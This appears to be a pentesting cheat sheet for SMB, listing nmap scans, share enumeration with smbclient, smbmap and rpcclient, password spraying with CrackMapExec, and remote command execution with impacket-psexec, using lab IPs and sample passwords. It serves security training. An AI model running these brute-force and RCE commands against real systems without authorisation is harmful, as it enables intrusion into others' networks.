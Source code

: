 # SMB \[139,445]

## Nmap Scanning

### **Getting version information**

```
nmap -n -v -Pn -p139,445 -sV 192.168.0.101
```

### **Scan with NSE Scripts**

```
nmap 192.168.0.101 --script=smb-enum*
nmap 192.168.0.101 --script=smb-vuln*
nmap 192.1688.0.101 --script=smb-os*
```

## List Available Shares

### smbclient

```
smbclient -L \\\\192.168.1.101\\
# Will list all shares

smbclient --no-pass -L //<IP> 
# Null user

smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> 
#If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash

smbclient -L \\$ip --option='client min protocol=NT1'
# if getting error "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"

smbclient //HOST/PATH -c 'recurse;ls'
# List all files recursly
```

### smbmap

```
smbmap -H $ip
# Will list all shares with available permissions

smbmap -H $ip -R $sharename
# Recursively list dirs, and files

smbmap -u '' -p '' -H $ip 
smbmap -u guest -p '' -H $ip
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
# With credentials

smbmap -H 10.129.14.128 --download "notes\note.txt"
# Download

smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
# Upload
```

### Nmap

```
nmap --script smb-enum-shares -p 139,445 $ip
```

**Windows CMD - Net Use**

```cmd-session
C:\htb> net use n: \\192.168.220.129\Finance /user:plaintext Password123
```

> to host a server use impacket with username and password flags.

**Windows CMD - DIR**

```cmd-session
C:\htb> dir n: /a-d /s /b | find /c ":\"

29302
```

<table data-header-hidden><thead><tr><th width="113"></th><th></th></tr></thead><tbody><tr><td><strong>Syntax</strong></td><td><strong>Description</strong></td></tr><tr><td><code>dir</code></td><td>Application</td></tr><tr><td><code>n:</code></td><td>Directory or drive to search</td></tr><tr><td><code>/a-d</code></td><td><code>/a</code> is the attribute and <code>-d</code> means not directories</td></tr><tr><td><code>/s</code></td><td>Displays files in a specified directory and all subdirectories</td></tr><tr><td><code>/b</code></td><td>Uses bare format (no heading information or summary)</td></tr></tbody></table>

### rpcclient

```shell-session
$ rpcclient -U'%' 10.10.110.17
```

```shell-session
rpcclient $> enumdomusers

user:[mhope] rid:[0x641]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

### Enum4linux

```shell-session
enum4linux 10.10.11.45 -A
enum4linux -u 'guest' -p '' -a <ip>
```

## Brute Force

### CrackMapExec

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

## **Remote Code Execution (RCE)**

### Impacket-psexec

```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```

### CrackMapExec

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```



[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)




